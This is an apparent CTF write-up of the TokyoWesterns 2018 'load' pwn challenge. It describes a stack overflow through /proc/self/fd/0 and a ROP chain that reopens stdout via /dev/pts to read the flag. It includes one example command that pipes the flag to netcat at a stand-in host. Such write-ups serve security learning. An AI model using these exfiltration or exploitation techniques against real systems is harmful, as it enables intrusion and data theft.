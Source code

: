 ```yaml
---
title: "TokyoWesterns CTF 2018 - load (pwn)"
description: ""
pubDate: 2018-09-03
tags: [ctf, pwn]
---
```


> host : pwn1.chal.ctf.westerns.tokyo
>
> port : 34835 (Solves: 49, 208 pts)
>
> [load][load] [+exploit.py][exploit]

This challenge runs a binary that is a **Load file Service**, which allows you to read any file on the system, which it will open and write the file contents to a buffer on the stack. The `filename` that we enter is limited to 128-bytes and is placed in a variable in the bss section, we should take note of that. From this description, it is quite obvious that we are going for a stack-based buffer overflow which will allow us to control the saved RIP on the stack, as long as the file read is larger than the buffer size, it will overflow. 

## Controlling RIP

This brings the question of what file to read, since we do not control any files on the challenge server, and even though we could overflow it by reading some arbitrary big file in the system, if we do not control its contents, we are unable to significantly control execution flow of the program to get a flag. The solution is to read a file we CAN control, `/proc/self/fd/0`. This file is a symbolic link created for each process which allows us to read data from the terminal, fd 0 refers to STDIN while fd 1 would be STDOUT, thus if we read from fd 0, we can send a ROP chain to overflow the buffer.

```
Load file Service
Input file name: /proc/self/fd/0
Input offset: 0
Input size: 100
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Load file complete!
Segmentation fault (core dumped) <= YAY
```


## No Leaks?

So now that we are able to control execution flow, I notice the next issue. Right before main returns, there is a call to `close_fd()`, which closes the file descriptors for STDIN, STDOUT and STDERR. What this means is that we will no longer be able to read data from the user or print data to the screen.

```c
int close_fd()
{
  close(0);
  close(1);
  close(2);
  return;
}
```

This is an issue as generally, we assume that 99% of CTF pwn challenges have ASLR enabled, thus the libc will be mapped to a random address space for each execution of the binary. This either forces us to leak the libc address so we can call functions that are not in the PLT (PLT functions have a static addresses) or only use functions present in the PLT. The PLT actually contains `open`, `read`, and `puts`, so we actually do not need to leak the libc base address to read the flag, however we still need STDOUT to be open to see the flag on our side. So I thought of two solutions.

1) If we can find the appropriate gadgets, maybe we could run `execve` with syscalls and run a command like `cat flag | nc [myip] 1337` which would give us the flag. But I was unable to find any syscall gadgets, and this would be a very difficult operation to do with only syscalls

2) Find some way to reopen STDOUT

I settled with the second way as it's probably easier.

## Reopening STDOUT

After a file descriptor is closed, the file descriptor will be "free'd" and the next call to the `open` syscall would return the lowest free file descriptor possible. Since `close_fd()` closed file descriptors `0, 1, 2`, our next three calls to `open` would return these file descriptors. If you run `strace` on a program calling `puts`, you will notice that a puts call for example `puts("Load file complete!")` is actually just `write(1, "Load file complete!", 19)     = 19`. This is useful as now we know that the second file we open to will be written to by the puts call. If we can somehow read from that file from our remote connection, we can see the flag. After knowing this I did some googling and tried random files like `/dev/tty` after seeing shellcodes like [this][shellcode], but tty didn't work, I think it's because we aren't in a terminal. Trying to call open on `/proc/self/fd/1` wouldn't work as after the fd is closed, so is the file. After messing around, I realised that `/proc/self/fd/1` is just a symlink to another file `/dev/pts/?`. I tried opening the correct `/dev/pts/?` twice so that fd 1 == `/dev/pts/?` with a simple puts ROP chain and it worked!

## Finishing up

Now that we know we can leak, we just have to write a simple ROP chain to open the flag file and read it back to ourselves. The ROP chain I used did the following `open("/dev/pts/?") * 2 => open("/home/load/flag.txt") => read(3(flag), 0x601000(random bss addr), 10000)`, using our `filename` buffer in the bss to store filenames for the three files, since it has a static address. And we get the flag! Just a note, `/dev/pts/?` has question mark as it seems that the pts our connection uses keeps changing, but changing it randomly between 0-3 seemed to work reliably enough for my purposes. Also, there weren't easy gadgets for a `pop rdx` instruction for the third argument in the `read` call, so I had to use `csu_init` which helps to set my rdx register.

`TWCTF{pr0cf5_15_h1ghly_fl3x1bl3}`

[load]:/ctf/TokyoWesterns18/load/load
[exploit]:/ctf/TokyoWesterns18/load/exploit.py
[shellcode]: http://shell-storm.org/shellcode/files/shellcode-219.php